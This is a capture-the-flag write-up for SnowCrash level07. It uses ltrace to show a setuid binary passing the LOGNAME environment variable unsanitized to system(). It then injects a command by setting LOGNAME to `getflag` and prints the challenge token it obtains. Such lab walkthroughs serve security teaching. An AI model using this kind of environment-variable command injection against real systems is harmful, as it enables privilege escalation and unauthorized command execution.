 # Exploit a vulnerability in an ENV variable

level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                        = 2007
geteuid()                                        = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
getenv("LOGNAME")                                = "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff46, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 0
+++ exited (status 0) +++


The vulnerability lies in the program using the unsanitized `LOGNAME` environment variable in a `system` call. By fetching `LOGNAME` with `getenv` and directly incorporating it into a command executed via `system("/bin/echo level07 ")`, an attacker can inject commands by altering `LOGNAME`, leading to potential command execution.

### Exploiting the vulnerability

level07@SnowCrash:~$ export LOGNAME=\`getflag\`
level07@SnowCrash:~$ ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
